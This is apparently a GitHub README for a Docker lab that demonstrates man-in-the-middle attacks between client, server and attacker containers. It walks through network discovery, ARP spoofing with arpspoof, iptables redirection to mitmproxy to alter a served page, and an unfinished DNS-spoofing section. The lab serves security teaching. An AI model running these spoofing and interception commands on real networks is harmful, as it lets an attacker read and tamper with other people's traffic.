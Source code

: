 # Man in the Middle Attack Demo using Docker

- Adapted from: [https://github.com/kientuong114/docker-mitm/tree/main](https://github.com/kientuong114/docker-mitm/tree/main)

The tools used are [mitmproxy](http://mitmproxy.org), [arpspoof](https://www.monkey.org/~dugsong/dsniff/) and [Docker](http://www.docker.com)

## Setup

There are 3 containers, Bob (Server), Alice (Client) and Eve (Attacker).

- **Bob**: is hosting an http server, serving the files contained in `server_files`
- **Alice**: is a container with Firefox running on it. To connect to firefox from the host, visit `http://localhost:5800`.
- **Eve**: is a container meant to be used via bash. To run commands, just run `docker exec -it mitm_eve /bin/bash`. This container has the `attacker_files` folder mounted on the container as `/eve`

The three containers are connected together with a docker bridge network called `mitm`.
Firefox didn't work when networks configuration was provided.

## How to run the demo

1. Install Docker, docker-compose, then run `docker-compose up -d`
2. Connect to Alice's Firefox instance and visit `http://bob/`. This should show the actual website served by Bob
3. You may also connect to alice via command line (`docker exec -it alice sh`) and see which MAC address corresponds to Bob's IP address
4. Open 2 instances of bash on Eve's container (or, equivalently, install and use tmux with two splits) (`docker exec -it eve bash`) and run the `dig` command to discover the IPs of Alice and Bob:

```bash
ifconfig eth0 promisc # enable promiscuous mode
arp -n
ip -s -s neigh flush all # clear ARP cache
apt update && apt install -y dnsutils nmap
nmap -sn 172.18.0.0/24 # discover IPs in the network using ping scan
dig alice
dig bob
arp -n
```

5. With this information, now run arspoof twice, once for each bash instance.

In the attacker's Terminal:

```bash
arpspoof -t <alice_ip> -r <bob_ip>
```

Also you could explictly spoof two targets on two Terminals:

```bash
arpspoof -t <alice_ip> <bob_ip>
arpspoof -t <bob_ip> <alice_ip>
```

6. Now you may verify in Alice's `bash` instance that `ip neighbor or arp -n` shows that Bob's IP is now associated to Eve's MAC address, meaning that the ARP spoofing was successful. In any case, reloading the page still shows the normal website, since Eve is not blocking any packets yet.
7. Now run the `add_iptables_rule.sh` script in the `eve` folder. This will add a rule to `iptables` to forward every packet with destination port 80 to the proxy
8. You may verify that Alice's browser will give an error when reloading the page. This is because Eve is not blocking the packets in iptables and forwarding them to the proxy. Since the proxy is not active yet, the packets are simply dropped.
9. Now we activate the proxy in passive mode:

```bash
mitmproxy -m transparent
```

10. Reload the browser page: the legit page will show again, but mitmproxy will show that the request passed through Eve
11. Now shut down the proxy and activate it again, this time with the script that modifies the contents of the page:

```bash
mitmproxy -m transparent -s proxy.py
```

12. Reload the browser page: the attacker has changed the contents of the website.
13. To shut down everything use the `del_iptables_rul.sh` script in the `eve` folder to remove the iptables rule and turn off the two arpspoof instances

## DNS Spoof - Not Working YET!!!

1. Connect to client's firefox browser from system. Open browser on system and go to http://localhost:5800

   - go to google.com from client's firefox and make sure it's legit domain

2. Create fake DNS hosts file on the attacker's container

   - use server's ip for demo

   ```bash
   dig server
   echo -e '<fake_server_ip>\twww.google.com' > hosts
   dnsspoof -i eth0 -f hosts
   ```

3. Run arpspoof on gateway (usually: _._.0.1) and the client/victim from attacker's machine

   - Connect to the attacker's Terminal, find gateway ip and run aprpsoof

   ```bash
   docker exec -it eve /bin/bash
   arp -n
   dig client
   arpspoof -i eth0 -t <gateway_ip> -r <client_ip>
   ```

4. Browse google.com from client firefox again

